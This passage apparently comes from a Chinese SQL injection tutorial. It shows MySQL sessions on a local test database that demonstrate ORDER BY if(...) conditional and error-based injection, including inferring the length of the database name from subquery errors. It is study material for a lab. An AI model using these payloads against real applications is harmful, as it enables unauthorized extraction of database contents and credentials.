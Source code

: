 3. 利用`if`进行报错注入

```
mysql root@localhost:sql_injection_test> select * from table1 order by if(1=1,id,username)
+----+----------+----------+-----------------+
| id | username | password | email           |
+----+----------+----------+-----------------+
| 1  | admin    | admin!@# | admin@admin.org |
| 2  | tim      | 123456   | tim@qq.com      |
| 3  | mike     | asdfqwer | mike@gmail.com  |
| 4  | mike     | asdfqwer | mike@gmail.com  |
+----+----------+----------+-----------------+
4 rows in set
Time: 0.009s
mysql root@localhost:sql_injection_test> select * from table1 order by if(1=2,id,username)
+----+----------+----------+-----------------+
| id | username | password | email           |
+----+----------+----------+-----------------+
| 1  | admin    | admin!@# | admin@admin.org |
| 3  | mike     | asdfqwer | mike@gmail.com  |
| 4  | mike     | asdfqwer | mike@gmail.com  |
| 2  | tim      | 123456   | tim@qq.com      |
+----+----------+----------+-----------------+
4 rows in set
Time: 0.008s
```

`order by if(exp,id,username)`

```
mysql root@localhost:sql_injection_test> select * from table1 order by if(1=1,1,(select id from table1))
+----+----------+----------+-----------------+
| id | username | password | email           |
+----+----------+----------+-----------------+
| 1  | admin    | admin!@# | admin@admin.org |
| 2  | tim      | 123456   | tim@qq.com      |
| 3  | mike     | asdfqwer | mike@gmail.com  |
| 4  | mike     | asdfqwer | mike@gmail.com  |
+----+----------+----------+-----------------+
4 rows in set
Time: 0.008s
mysql root@localhost:sql_injection_test> select * from table1 order by if(1=2,1,(select id from table1))
(1242, 'Subquery returns more than 1 row')
mysql root@localhost:sql_injection_test> select * from table1 order by if(length(database())>8,1,(select id from table1))
+----+----------+----------+-----------------+
| id | username | password | email           |
+----+----------+----------+-----------------+
| 1  | admin    | admin!@# | admin@admin.org |
| 2  | tim      | 123456   | tim@qq.com      |
| 3  | mike     | asdfqwer | mike@gmail.com  |
| 4  | mike     | asdfqwer | mike@gmail.com  |
+----+----------+----------+-----------------+
4 rows in set
Time: 0.008s
mysql root@localhost:sql_injection_test> select * from table1 order by if(length(database())<8,1,(select id from table1))
(1242, 'Subquery returns more than 1 row')
```
